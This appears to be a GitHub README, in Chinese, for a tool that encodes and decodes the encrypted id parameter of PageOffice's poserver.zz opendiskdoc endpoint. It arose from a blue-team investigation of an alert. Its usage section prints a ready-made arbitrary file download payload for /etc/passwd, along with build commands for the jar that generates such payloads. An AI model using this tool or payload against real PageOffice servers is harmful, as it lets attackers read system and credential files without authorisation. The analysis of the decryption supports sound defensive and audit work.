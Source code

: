 # PageOffice_FileDownload
## 分析
某次蓝队防守时发现流量告警，读取了服务器敏感文件。客户要求解密请求字符串，根据页面回显的版本从github找到相应jar进行审计。

<img width="434" alt="image" src="https://github.com/JosT4r/PageOffice_FileDownload/assets/104313845/32eebafd-c395-4db0-9848-562d906fa315">

根据请求url（poserver.zz?pgop=opendiskdoc&id=）定位到该文件，其中f函数对id参数值进行解密。

<img width="1274" alt="image" src="https://github.com/JosT4r/PageOffice_FileDownload/assets/104313845/745c9c59-5292-418a-9af8-27dbc26c761d">

跟进f函数能看到是解密过程。

<img width="589" alt="image" src="https://github.com/JosT4r/PageOffice_FileDownload/assets/104313845/399fbb9a-375b-4bb2-85c8-71894603e306">


## package
```
javac Main.java
jar -cvmf MANIFEST.MF PageOffice-FileDownload.jar *.class
```
## env
`jdk1.8`
## Usage
### 1. encode
```
java -jar PageOffice-FileDownload.jar encode /etc/passwd

encode payload:
poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnLDh2OCQpbSJyK2w4cj9uKzsXbiRqL2EXci9tIi0lYThjOCs5ciZjF2s=
```
### 2. decode
```
java -jar PageOffice-FileDownload.jar decode KmcgY3MtLG0jY2VxJnQjZSYxYjVlcStwOmMmcWVkOXEpbiZtKC58Ln8tOXIXcDhzJCs

decode payload:
file=/etc/passwd&filename=1.txt&contenttype=application/octet-stream
```
